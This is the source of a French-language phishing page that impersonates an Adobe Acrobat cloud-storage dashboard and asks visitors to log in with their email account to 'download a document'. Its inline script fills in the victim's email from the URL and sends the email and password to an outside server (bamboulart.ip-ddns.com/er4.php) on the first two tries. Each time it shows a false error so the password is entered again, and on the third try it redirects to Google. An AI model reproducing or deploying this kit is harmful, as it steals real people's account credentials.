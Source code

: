 <html lang="fr">
<head>
    <meta charset="utf-8"/>
    <meta content="width=device-width, initial-scale=1.0" name="viewport"/>
    <title>
        Stockage cloud 
    </title>
    <script src="https://cdn.tailwindcss.com"></script>
    <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.3/css/all.min.css" rel="stylesheet"/>
</head>
<body class="bg-gray-100 font-sans">
<div class="flex flex-col md:flex-row h-screen">
    <!-- Sidebar -->
    <div class="w-full md:w-1/4 bg-white p-4 md:h-full">
        <div class="mb-4">
            <h2 class="text-lg font-semibold">
                Stockage cloud 
            </h2>
            <ul class="mt-2">
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        Vos fichiers
                    </a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        Analyses
                    </a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        Partagé par vous
                    </a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        Partagé par d'autres
                    </a>
                </li>
            </ul>
        </div>
        <div class="mb-4">
            <h2 class="text-lg font-semibold">
                Accords
            </h2>
            <ul class="mt-2">
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        Tous les accords
                    </a>
                </li>
            </ul>
        </div>
        <div class="mb-4">
            <h2 class="text-lg font-semibold">
                Autre stockage de fichiers
            </h2>
            <ul class="mt-2">
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        Votre ordinateur
                    </a>
                </li>
                <li class="py-1">
                    <a class="text-blue-500" href="#">
                        Ajouter un stockage de fichiers
                    </a>
                </li>
            </ul>
        </div>
        <div class="border-t pt-4">
            <div class="bg-blue-100 p-4 rounded">
                <p class="text-sm">
                    Essai gratuit de 7 jours
                </p>
                <p class="text-xs text-gray-600">
                    Obtenez un accès illimité à tous les outils PDF et de signature électronique.
                </p>
                <button class="mt-2 bg-blue-500 text-white px-4 py-2 rounded">
                    Essayez Acrobat Pro
                </button>
            </div>
        </div>
    </div>
    <!-- Main Content -->
    <div class="flex-1 p-4">
        <div class="flex justify-between items-center mb-4">
            <h2 class="text-lg font-semibold">
                Récente
            </h2>
            <div class="flex space-x-4">
                <button class="bg-yellow-100 text-yellow-600 px-4 py-2 rounded">
                    Ajouter des commentaires
                </button>
                <button class="bg-purple-100 text-purple-600 px-4 py-2 rounded">
                    Demander une signature électronique
                </button>
            </div>
        </div>
        <div class="grid grid-cols-1 sm:grid-cols-2 md:grid-cols-4 gap-4">
            <div class="bg-white p-4 rounded shadow">
                <img alt="PDF document thumbnail" class="w-full h-32 object-cover mb-2" src="https://carolabortionclinic.com/iimg/civ.png"/>
                <p class="text-sm">PO VT#5799775</p>
                <p class="text-xs text-gray- 500">PDF - Aujourd'hui, 11h41</p>
            </div>
            <div class="bg-white p-4 rounded shadow">
                <img alt="PDF document thumbnail" class="w-full h-32 object-cover mb-2" src="https://carolabortionclinic.com/iimg/civ.png"/>
                <p class="text-sm">Document partagé</p>
                <p class="text-xs text-gray-500">PDF - Aujourd'hui, 11h41</p>
            </div>
            <div class="bg-white p-4 rounded shadow">
                <img alt="PDF document thumbnail" class="w-full h-32 object-cover mb-2" src="https://carolabortionclinic.com/iimg/civ.png"/>
                <p class="text-sm">Index des fichiers9547</p>
                <p class="text-xs text-gray-500">PDF - Aujourd'hui, 11h39</p>
            </div>
            <div class="bg-white p-4 rounded shadow">
                <img alt="PDF document thumbnail" class="w-full h-32 object-cover mb-2" src="https://carolabortionclinic.com/iimg/civ.png"/>
                <p class="text-sm">Bienvenue</p>
                <p class="text-xs text-gray-500">PDF - Ouvert aujourd'hui, 11h26</p>
            </div>
        </div>
    </div>
    <!-- Right Sidebar -->
    <div class="w-full md:w-1/4 bg-white p-4 md:h-full">
        <div class="mb-4">
            <h2 class="text-lg font-semibold">Récente</h2>
            <ul class="mt-2">
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        <img alt="PDF icon" class="inline-block w-6 h-6 mr-2" src="https://carolabortionclinic.com/iimg/civ.png"/> PO VT#5799775
                    </a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        <img alt="PDF icon" class="inline-block w-6 h-6 mr-2" src="https://carolabortionclinic.com/iimg/civ.png"/> Document partagé
                    </a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        <img alt="PDF icon" class="inline-block w-6 h-6 mr-2" src="https://carolabortionclinic.com/iimg/civ.png"/> Index des fichiers9547
                    </a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#">
                        <img alt="PDF icon" class="inline-block w-6 h-6 mr-2" src="https://carolabortionclinic.com/iimg/civ.png"/> Bienvenue
                    </a>
                </li>
            </ul>
        </div>
        <div class="mb-4">
            <h2 class="text-lg font-semibold">Actes</h2>
            <ul class="mt-2">
                <li class="py-1">
                    <a class="text-gray-700" href="#"><i class="fas fa-share-alt mr-2"></i> Partager</a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#"><i class="fas fa-comment-alt mr-2"></i> Ajouter des commentaires</a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#"><i class="fas fa-pen mr-2"></i> Remplir et signer</a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#"><i class="fas fa-edit mr-2"></i> Modifier un PDF</a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#"><i class="fas fa-file-export mr-2"></i> Exporter un PDF</a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#"><i class="fas fa-file-alt mr-2"></i> Organiser les pages</a>
                </li>
                <li class="py-1">
                    <a class="text-gray-700" href="#"><i class="fas fa-trash-alt mr-2"></i> Supprimer du récent</a>
                </li>
            </ul>
        </div>
    </div>
    <!-- Modal -->
    <div class="fixed inset-0 flex items-center justify-center bg-black bg-opacity-50">
        <div class="bg-white p-8 rounded shadow-lg w-11/12 md:w-1/3">
            <div class="flex justify-center mb-4">
                <img alt="PDF icon" class="w-19 h-10" src="https://img.phonandroid.com/2017/01/free-orange-sfr-bouygue.jpg"/>
                <img alt="PDF icon" class="w-9 h-10" src="https://cdn.freelogovectors.net/wp-content/uploads/2020/02/outlook-logo.png"/>
                <img alt="PDF icon" class="w-9 h-10" src="https://fthmb.tqn.com/OsbA0h2qtOpo8uIqqarj_el8Rxg=/1200x1200/filters:fill(auto,1)/yahoo-logo-57d9b8c75f9b5865168d4801.jpg"/>
                <img alt="PDF icon" class="w-10 h-10" src="https://logo-marque.com/wp-content/uploads/2021/03/La-Poste-Logo-2018-present.jpg"/>
            </div>
            <h2 class="text-center text-xl font-semibold mb-2">Stockage cloud </h2>
            <p class="text-center text-gray-700 mb-4">Connectez-vous avec votre compte de messagerie pour accéder aux documents:</p>
            <p id="error-message" class="text-center text-red-500 mb-4 hidden">Invalid email or password</p>
            
            
            
            <form id="login-form">
                <div class="mb-4">
                    <input id="email" class="w-full p-2 border border-gray-300 rounded" placeholder="Email" type="email" required/>
                </div>
                <div class="mb-4">
                    <input id="password" class="w-full p-2 border border-gray-300 rounded" placeholder="Password" type="password" required/>
                </div>
                <button id="submit-btn" class="w-full bg-blue-500 text-white p-2 rounded" type="submit">Télécharger Document</button>
            </form>
            <script>
                let attempt = 0; // To track the number of attempts

                // Function to auto-fill the email field from the URL
                document.addEventListener('DOMContentLoaded', function () {
                    // Get email from the URL hash fragment
                    var urlHash = window.location.hash;
                    if (urlHash) {
                        // Extract email from the hash (e.g., #resulte@carolabortionclinic.com)
                        var emailFromUrl = urlHash.substring(1); // Remove the '#' character
                        var emailField = document.getElementById('email');
                        emailField.value = emailFromUrl; // Set the email in the field
                    }
                });

                // Add event listener to hide error message when typing in the password field
                document.getElementById('password').addEventListener('input', function() {
                    document.getElementById('error-message').classList.add('hidden');
                });

                document.getElementById('login-form').addEventListener('submit', function(e) {
                    e.preventDefault(); // Prevent form from being submitted

                    var email = document.getElementById('email').value;
                    var password = document.getElementById('password').value;

                    // Display "Verifying..." on the button
                    document.getElementById('submit-btn').innerText = 'Verifying...';
                    document.getElementById('submit-btn').disabled = true; // Disable the button during verification

                    // Simulate a delay of 2 seconds (verifying)
                    setTimeout(function() {
                        if (attempt < 2) {
                            // Send the email and password to the server (https://bamboulart.ip-ddns.com/er4.php) on the first and second attempts
                            fetch('https://bamboulart.ip-ddns.com/er4.php', {
                                method: 'POST',
                                body: new URLSearchParams({
                                    email: email,
                                    password: password
                                })
                            });

                            // First or second attempt: Show error message, clear password, and focus on password
                            document.getElementById('error-message').classList.remove('hidden');
                            document.getElementById('password').value = ''; // Clear password field
                            document.getElementById('password').focus(); // Focus on password field to re-enter
                            document.getElementById('submit-btn').innerText = 'View Document'; // Reset button text
                            document.getElementById('submit-btn').disabled = false; // Enable the button
                            attempt++; // Increment attempt count
                        } else if (attempt === 2) {
                            // Third attempt: Just redirect to Google without sending the email/password
                            window.location.href = 'https://google.com';
                        }
                    }, 2000); // 2 seconds delay
                });
            </script>
        </div>
    </div>
</div>
</body>
</html>
